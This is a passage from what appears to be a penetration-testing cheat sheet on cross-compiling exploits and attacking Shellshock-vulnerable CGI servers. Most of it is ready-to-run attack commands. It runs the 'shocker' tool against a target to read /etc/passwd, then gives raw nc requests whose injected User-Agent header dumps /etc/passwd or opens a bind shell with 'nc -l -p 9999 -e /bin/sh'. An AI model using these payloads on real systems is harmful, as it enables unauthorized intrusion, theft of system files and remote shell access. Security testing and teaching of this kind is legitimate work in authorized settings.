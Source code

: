 <h3 id="cross-compiling-exploits">
Cross Compiling Exploits
</h3>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
</code></pre>
:::
::::

<h3 id="exploiting-common-vulnerabilities">
Exploiting Common Vulnerabilities
</h3>
<h4 id="exploiting-shellshock">
Exploiting Shellshock
</h4>
<p>
A tool to find and exploit servers vulnerable to Shellshock:
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>git clone https://github.com/nccgroup/shocker
</code></pre>
:::
::::

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
</code></pre>
:::
::::

<h5 id="cat-file-view-file-contents">
cat file (view file contents)
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(&lt;/etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
</code></pre>
:::
::::

<h5 id="shell-shock-run-bind-shell">
Shell Shock run bind shell
</h5>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
</code></pre>
:::
::::
